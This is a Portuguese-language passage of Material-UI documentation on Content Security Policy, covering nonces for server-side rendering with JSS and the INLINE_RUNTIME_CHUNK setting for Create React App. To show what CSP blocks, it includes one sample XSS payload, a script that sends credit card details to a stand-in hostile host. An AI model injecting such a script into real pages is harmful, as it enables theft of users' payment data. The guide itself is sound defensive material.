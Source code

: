 # Política de segurança de conteúdo (CSP)

<p class="description">Esta seção abrange os detalhes da criação de um CSP.</p>

## O que é CSP e por que é útil?

CSP reduz os ataques de cross-site scripting (XSS) exigindo que os desenvolvedores incluam na whitelist as fontes de onde seus assets são recuperados. Esta lista é retornada como um cabeçalho do servidor. Por exemplo, digamos que você tenha um site hospedado em `https://example.com` o cabeçalho CSP `default-src: 'self';` permitirá todos os assets localizados em `https://example.com/*` e negar todos os outros. Se houver uma seção do seu site que é vulnerável ao XSS, onde a entrada do usuário de unescaped é exibida, um invasor pode inserir algo como:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Esta vulnerabilidade permitiria que o invasor executasse qualquer coisa. No entanto, com um cabeçalho CSP seguro, o navegador não carregará esse script.

Você pode ler mais sobre o CSP no [MDN Web Docs](https://developer.mozilla.org/pt-BR/docs/Web/HTTP/CSP).

## Como se implementa o CSP?

### Renderização do lado do Servidor (SSR)

Para usar o CSP com Material-UI (e JSS), você precisa usar um nonce. Um nonce é uma string gerada aleatoriamente que é usada apenas uma vez, portanto, você precisa adicionar um middleware de servidor para gerar um em cada solicitação. JSS tem um [ótimo tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) sobre como conseguir isso com Express and React Helmet. Para um resumo básico, continue lendo.

Um nonce CSP é uma string codificada na Base 64. Você pode gerar um assim:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

Você deve usar o UUID versão 4, pois ele gera uma string **imprevisível**. Em seguida, você aplica esse nonce ao cabeçalho do CSP. Um cabeçalho CSP pode ser assim com o nonce aplicado:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

Você deve passar o nonce na tag `<style>` no servidor.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

Então, você deve passar este nonce para o JSS para que ele possa adicioná-lo às tags `<style>` subsequentes.

A maneira como você faz isso é passando uma tag `<meta property="csp-nonce" content={nonce} />` no `<head>` do seu HTML. O JSS irá então, por convenção, procurar por uma tag `<meta property="csp-nonce"` e usar o valor do `content` como um nonce.

Aqui está um exemplo de como um cabeçalho fictício poderia parecer:

```html
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

De acordo com [a documentação de Create React App](https://create-react-app.dev/docs/advanced-configuration/), uma aplicação de Create React App incorporará dinamicamente o script de tempo de execução em index.html durante a compilação de produção por padrão. Isto exigirá que um novo hash seja definido em seu CSP durante cada implantação.

Para usar um CSP com um projeto inicializado como um Create React App, você precisará definir a variável `INLINE_RUNTIME_CHUNK=false` no arquivo `.env` usado para sua compilação de produção. Isto irá importar o script de execução como de costume em vez de incorporá-lo, evitando a necessidade de definir um novo hash durante cada implantação.
